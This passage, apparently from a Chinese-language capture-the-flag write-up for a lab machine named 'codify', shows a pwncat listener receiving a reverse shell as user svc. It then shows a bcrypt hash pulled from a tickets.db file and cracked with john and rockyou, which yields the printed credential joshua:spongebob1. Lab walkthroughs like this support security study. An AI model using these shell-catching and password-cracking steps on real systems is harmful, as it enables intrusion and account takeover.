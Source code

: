## User - svc

```shell
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[10:36:41] Welcome to pwncat 🐈!
[10:37:04] received connection from 10.10.11.239:35458
[10:37:13] 10.10.11.239:35458: registered new host w/ db
(local) pwncat$ back
(remote) svc@codify:/home/svc$ whoami
svc
```

### 环境探测

发现一个数据库文件 `/var/www/contact/tickets.db`

下载到本地，对数据库信息进行读取

| id  | username |                           password                           |
| :-: | :------: | :----------------------------------------------------------: |
|  3  |  joshua  | $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2 |

对哈希数据进行爆破

```shell
┌──(randark ㉿ kali)-[~]
└─$ hashid hash.txt
--File 'hash.txt'--
Analyzing '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2'
[+] Blowfish(OpenBSD)
[+] Woltlab Burning Board 4.x
[+] bcrypt
--End of file 'hash.txt'--

┌──(randark ㉿ kali)-[~]
└─$ john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)
......
```

得到凭据

```plaintext
joshua:spongebob1
```

## User - joshua
